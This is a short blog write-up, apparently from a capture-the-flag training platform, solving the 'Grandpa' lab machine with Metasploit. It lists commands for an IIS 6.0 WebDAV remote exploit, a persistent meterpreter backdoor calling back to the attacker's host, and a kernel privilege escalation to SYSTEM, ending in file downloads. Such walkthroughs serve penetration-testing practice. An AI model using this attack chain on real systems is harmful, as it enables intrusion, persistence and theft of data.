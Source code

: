 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-08T10:04:44+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

TBD
